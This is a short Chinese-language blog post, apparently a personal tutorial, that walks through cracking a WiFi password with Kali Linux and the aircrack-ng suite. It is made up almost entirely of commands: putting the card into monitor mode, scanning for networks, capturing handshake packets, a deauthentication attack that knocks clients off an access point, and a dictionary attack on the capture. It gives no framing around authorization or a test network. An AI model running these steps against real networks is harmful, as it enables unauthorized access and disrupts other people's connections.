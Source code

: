 ```yaml
---
layout: post
title: Aircrack破解wifi密码
---
```

<img src="/images/wifi.jpg" class="fit image"> 
  
## 实验过程

### 破解准备 
  * kali系统笔记本
  * 无线网卡模块
  * 安装aircrack-ng包

### 确认网卡
  进入系统后，首先ifconfig看我们的无线网卡是否有正常工作，如果没有开启  输入airmon-ng wlan0 up加载无线网卡
  在这里wlan0就是我的网卡，现在已经正常开启。
  <img src="/images/thumbs/wlan0.png" class="fit image">
### 开启监听
```
root@kali:~$ airmon-ng start wlan0
```
<img src="/images/0.9.jpg" class="fit image">
### 扫描目标wifi
 ```
 root@kali:~$ airodump-ng wlan0mon
 ```
### 开始抓握手包
 ```
 root@kali:~$ airodump-ng --ivs -w abc -c 6 mon0 
 ```

 1. ivs是通过ivs过滤，只保留可以破解密码的报文.ivs文件，这样比较快点
 2. -w是将抓取的报文写入命名为abc并保存（之后会在当前文件夹保存为abc-01.ivs）
 3. -c后面跟频道CH，如这里的6 
 
### 强制客户端重连
 ```
aireplay-ng -0 1 -a AP的Mac地址 -c 客户端的Mac地址 interface
 ```
 + -0 1：表示使用Deauth攻击模式，后面的1表示攻击次数
 + -a :表示AP的Mac地址
 + -c ：表示客户端的Mac地址
 + interface：网卡
 
### 使用密码本破解
 ```
  root@kali:~$ aircrack-ng abc-01.ivs -w pass-wifi.txt
 ```
 *-w是指定我的密码本

